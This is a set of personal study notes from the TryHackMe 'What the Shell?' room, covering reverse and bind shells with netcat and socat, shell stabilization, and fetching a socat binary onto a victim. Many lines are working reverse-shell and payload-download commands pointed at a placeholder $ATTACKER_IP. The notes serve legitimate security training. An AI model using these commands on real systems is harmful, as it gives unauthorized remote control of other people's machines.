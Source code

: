 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-27

# What the Shell?

## What Is a Shell?

Terminology:

* REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
* BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

## Tools

Typical tools for creating reverse shells or connecting to bind shells:

* `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
* `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
* `auxilary/multi/handler` is the netcat/socat equivalent in Metasploit. It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
* `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

* [Using Metasploit](../notes/metasploit.md)

## Types of Shells

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

## Netcat

While binding to well-known ports requires the use of sudo, it's also less likely to get flagged/blocked by intermediate firewalls.

## Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It's generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn't redirect control sequences, so Ctrl+C will still kill the connection).

It's also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you'd transfer this binary is by first spinning up a simply webserver in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

* UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
* WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows	emp\socat.exe`

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Quick-n-Dirty Python Web Server](../notes/quick-n-dirty-python-web-server.md)

## Socat

Socat: Just an anything-to-anything connector!

```bash
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

This gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it's perfectly acceptable to kick off a socat process from inside a netcat process!

